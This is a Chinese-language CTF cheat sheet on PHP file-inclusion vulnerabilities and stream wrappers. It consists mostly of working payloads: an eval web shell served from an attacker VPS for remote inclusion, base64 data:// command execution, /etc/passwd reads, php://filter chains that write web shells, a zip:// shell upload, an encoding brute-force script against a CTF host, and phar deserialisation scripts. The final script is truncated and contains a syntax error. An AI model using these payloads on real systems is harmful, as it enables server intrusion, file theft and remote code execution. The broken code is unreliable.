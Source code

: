 文件源代码中有include、require、file_get_content等函数，将会解析所含文件，然后再将其执行

文件包含漏洞可以分为LFl (Local File Inclusion本地文件包含)和RFI(Remote File Inclusion，远程文件包含）两种。而区分二者最简单的办法就是通过查看php.ini中是否开启了allow_url_include。如果开启就有可能包含远程文件。

远程文件包含需要php.ini中allow_url_include=on, allow_url_fopen = on。在php.ini中，allow_url_fopen默认一直是on，而allow_url_include从php5.2之后就默认为Off。

​	allow_url_fopen参数（只影响RFI，不影响LFI）

​	简介：是否允许将URL（HTTP，HTTPS等）作为文件打开处理

​	allow_url_include参数（只影响RFI，不影响LFI）

​	简介：是否允许includeI()和require()函数包含URL（HTTP，HTTPS）作为文件处理

**将以下示例设法放入include\require\require_once\include_once\file_get_content中**

### http://

远程文件包含，可以在自己的vps上写

```
<?php
echo 'hello <?php phpinfo();?> <?php @eval($_POST[\'shell\']);?>';
?>
```

然后file=http://vps/即可

### file://

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受配置文件中allow_url_fopen与allow_url_include的影响，示例：file://文件绝对路径和文件名

```
PHP的cURL库支持file协议。file协议用于在本地文件系统中读取文件
```

常用敏感路径：file:///var/www/html/index.php、file:///etc/passwd

### data://

 ```
data://,<?phpprint_r(scandir(/var/www));?>

?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJkaXIiKTs/Pg==

使用base64时，不能出现加号，需要换函数执行
 ```

### php://

使用条件(php.ini配置)：

                                  	allow_url_fopen	  			allow_url_include
    php://input	                         on/off	                          on       （常用）
    php://stdin	                         on/off	                          on
    php://memory	                     on/off	                          on
    php://temp                           on/off	                          on
    php://filter	                         on/off	                        on/off      (常用)

### php://input

php://input是php语言中一个只读的数据流；通过"php://input"，可以读取从Http客户端以POST方式提交、请求头“Content-Type”值非"multipart/form-data"的所有数据；"php://input"一般用来读取POST，除已被处理以外的剩余数据。

```
GET : index.php?cmd=php://input
 
POST : flag.php(目的数据)
```

 ### php://filter

php://filter可以作为一个中间流来处理其他流。

使用实例

解码：

```
php://filter/resource=文件名

php://filter/read=convert.base64-encode/resource=flag.php(常常源码不能直接被读取时，采用base64加密)

php://filter/read=string.strip_tags/resource=php://input

php://filter/read=string.rot13/resource=flag.php

php://filter/read=string.toupper/resource=flag.php

php://filter/read=string.tolower/resource=flag.php
```

写码绕过：

```
php://filter/resource=文件名&txt=文件内容

php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容

?filename=php://filter/convert.base64-decode/resource=1.php&content=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
(base64字段为<?php exit; ?>)

?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG[n]);

?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=3.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

##### convert.\*过滤器

```
?filename=php://filter/convert.iconv.a.b/resource=check.php
(对a，b进行爆破，)

例如：
convert.iconv.UCS-4*.UCS-4BE   --->  将指定的文件从UCS-4*转换为UCS-4BE 输出
convert.iconv.UTF-8*.UCS-4BE  (常用)
```

爆破脚本

```python
import time
import requests

all='''
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
'''
for a in all.split():
    for b in all.split():
        url="http://a2213058-fb41-4fec-b816-9961745fb2db.node4.buuoj.cn:81/"
        praram={"file":f"php://filter/convert.iconv.{a}.{b}/resource=flag.php"}
        req=requests.get(url,params=praram)
        #先测试出len，然后在爆破
        if len(req.text)!=1237:
            print(req.text,len(req.text),a,b)
            break
        print(1)
        time.sleep(0.5)#减少爆破速度
```

官方网站：[PHP: Supported Character Encodings - Manual](https://www.php.net/manual/en/mbstring.supported-encodings.php)

### zip://

当我们上传一个zip文件至服务器，当通过zip://协议解析这个压缩文件，索引到某个文件
```
?fp=zip://uploads/xxxx.png/1.php%231&shell=phpinfo();
需要注意的是zip伪协议逐渐要加#，即%23

xxx.png(zipfile)
- 1.php(phpfile) => "<php? eval($_GET['shell']);?>"
```

名称	                                            描述
resource=<要过滤的数据流>	这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>	该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表>	任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名

### phar://

也可解析zip文件,phar://uploads/xxxx.png/1.php

当phar反序列化时php脚本：

```
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($payload); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

phar伪造签名脚本：

```
from hashlib import sha1
with open('1.phar','rb') as file:
	f=file.read()
s=f[:28]
h=[-8:]
newf=s+sha1(s).digest()+h#数据+签名+（类型+GBMB)
with open('newtest','wb') as file:
	file.wri
```
